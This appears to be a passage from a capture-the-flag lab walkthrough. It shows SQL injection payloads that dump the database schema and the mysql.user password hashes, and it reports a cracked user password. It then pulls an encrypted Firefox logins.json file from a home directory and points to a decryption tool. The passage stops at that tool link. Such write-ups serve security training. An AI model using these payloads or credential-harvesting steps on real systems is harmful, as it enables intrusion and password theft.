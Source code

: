 ```sql
" or 1=1 #
```
![ih8.png](images/ih/ih8.png)
- This payload dumps the entire status table.

```sql
" union select null, null, null, schema_name from information_schema.schemata; #
```
![ih10.png](images/ih/ih10.png)

```sql
" union select 1, user, password, authentication_string from mysql.user; #
```
![ih9.png](images/ih/ih9.png)
- Then we find out the username and hashed password.
- Using `hashes.com`, the root password was not found, but `elliot`'s password was: `elliot123`.

## Privilege Escalation
- The DirtyCOW attack was not applicable, so we have to try another method.

```shell
ls -al
total 16
drwx------. 5 elliot elliot 142 Sep 10 07:46 .
drwxr-xr-x. 7 root   root    76 Aug 16  2020 ..
lrwxrwxrwx. 1 root   root     9 Aug 16  2020 .bash_history -> /dev/null
-rw-r--r--. 1 elliot elliot  18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 elliot elliot 193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 elliot elliot 231 Apr  1  2020 .bashrc
drwx------  2 elliot elliot  79 Sep 10 08:00 .gnupg
-rw-r--r--  1 elliot elliot  33 Sep 10 03:30 local.txt
drwx------. 5 elliot elliot  66 Aug 16  2020 .mozilla
drwx------. 2 elliot elliot  25 Aug 16  2020 .ssh
```
- The `.mozilla` directory is found.

```shell
/home/elliot/.mozilla/firefox/esmhp32w.default-default

cat logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"https://localhost:10000","httpRealm":null,"formSubmitURL":"https://localhost:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECMXc5x8GLVkkBAh48YcssjnBnQ==","encryptedPassword":"MEoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPPLux2+J9fKBCApSMIepx/VWtv0rQLkpiuLygt0rrPPRRFoOIlJ40XYbg==","guid":"{0b89dfcb-2db3-499c-adf0-9bd7d87ccd26}","encType":1,"timeCreated":1597591517872,"timeLastUsed":1597595253716,"timePasswordChanged":1597595253716,"timesUsed":2}],"version":2}
```
- Above directory is the firefox profile, and it contains `logins.json`
- Inside the `logins.json` file, there is an encrypted credential.

### firefox_decrypt
[unode/firefox_decrypt: Firefox Decrypt is a tool to extract passwords from Mozilla (Firefox™, Waterfox™, Thunderbird®, SeaMonkey®) profiles](https://github.com/unode/firefox_decrypt)
